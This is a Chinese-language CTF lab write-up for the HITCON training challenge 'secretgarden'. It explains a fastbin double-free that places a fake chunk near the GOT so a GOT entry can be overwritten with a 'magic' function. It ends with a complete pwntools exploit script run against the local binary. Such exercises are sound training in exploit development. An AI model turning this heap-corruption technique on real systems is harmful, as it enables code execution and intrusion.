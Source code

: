 ```yaml
---
title: lab12_secretgarden
date: 2019-07-19
categories: 
- hitcon_trainning
tags: heap double_free
---
```


# double_free

## 场景
- `fastbin`（一般是）
- `free`后没有将指针置空

## 流程

![process](https://c-ssl.duitang.com/uploads/item/201907/19/20190719134950_ARVQR.png)

# 思路

利用double_free更改某个函数的got表为magic函数的地址。

## 注意点

- `fake_chunk` 的size域要合适，只用考虑一个字中的低4个字节。无需考虑和8对齐，因为最后3个bits是AMP标志。   

    和got表相近的地方，有一个   
    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/19/20190719140152_QJXWk.png)

    写全的话，是`0x0000000000601e28`。这里的`\x60`刚好可以满足上述要求。
    - 可以看到这个地方的地址是`0x602000`,那么`\x60`的地址是 `0x602000 - 0x8 + 0x3` 也就是`0x601ffb`，size域的整个字节的地址是`0x6012002`。  
    那么`fake_chunk` 的地址就是`0x601ffa`。

- 由于改的是got表，所以要用六个字节对齐0x8。  

- magic的地址按理是随便选一个，但是`_dl_runtime_resolve_xsavec`并不在got表中。
    ![](https://c-ssl.duitang.com/uploads/item/201907/19/20190719142205_5ArV5.png)   
    ![](https://c-ssl.duitang.com/uploads/item/201907/19/20190719142341_LNmMn.png)   
    我已开始把他也覆盖成magic的地址，然后就循环执行`magic`。 覆盖成0就正常在执行`puts`的时候执行了`magic`。
    
    - 这里我找到了github上一篇<a href="https://github.com/lattera/glibc/blob/master/sysdeps/x86_64/dl-trampoline.S">glibc的源码</a>, 宏定义了很多有关`_dl_runtime_resolve`的东西    
    ![](https://c-ssl.duitang.com/uploads/item/201907/19/20190719143552_WAT5L.png)   
    为什么每个都能define`_dl_runtime_resolve`一下？？貌似也和动态链接库有关。我猜可能是调用函数的函数。<a href = "https://build.opensuse.org/package/view_file/openSUSE:Leap:15.0/glibc/dl-runtime-resolve-xsave.patch?expand=0">资料</a>，看不懂，心累。

## getshell?

看起来是可以的，但可能就是麻烦一点。
- double_free到fake_chunk,用show打印某个got表项值，计算libc基址。
- double_free改got表   
麻烦在怎么找一个合适的size，能既不覆盖需要打印的原有got表也能够通过free的检查……

# exp

2.27仍旧没法跑= =

```python
from pwn import * 
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def add(length,name,color):
    sh.sendlineafter('choice : ','1')
    sh.sendlineafter('name :',str(length))
    sh.sendlineafter('flower :',name)
    sh.sendlineafter('flower :',color)

def remove(index):
    sh.sendlineafter('choice : ','3')
    sh.sendlineafter('garden:',str(index))

def show():
    addr = u64(sh.recvuntil('\x7f')[-6] + '\x00\x00')
    return addr

if __name__ == "__main__":
    sh = process('./secretgarden')
    elf = ELF('./secretgarden')
    libc = elf.libc

    add(0x50,'a' * 8, 'a')
    add(0x50,'b' * 8, 'b')

    remove(0)
    remove(1)
    remove(0)

    fake_chunk = 0x601ffa
    magic = elf.symbols['magic']
    payload = 'A' * 6 + p64(0) + p64(magic) * 2

    pause()
    add(0x50,p64(fake_chunk),'a')
    add(0x50,'b' * 8,'a')
    add(0x50,'a' * 8,'a')
    add(0x50,payload,'a')

    sh.interactive()
    sh.close()

```